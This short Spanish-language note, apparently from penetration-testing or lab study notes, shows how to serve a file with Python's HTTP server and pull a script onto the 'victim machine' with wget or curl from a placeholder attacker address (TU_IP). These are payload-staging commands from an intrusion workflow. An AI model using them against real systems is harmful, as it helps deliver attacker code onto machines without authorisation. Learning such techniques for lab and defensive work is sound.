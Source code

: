Se levanta un **servidor HTTP**:
	`python3 -m http.server 8000`
Luego, desde la máquina víctima (remota), descargas el archivo con:
	`wget http://TU_IP:8000/archivo.sh`
o si no tiene `wget`:
	`curl http://TU_IP:8000/archivo.sh -o archivo.sh`


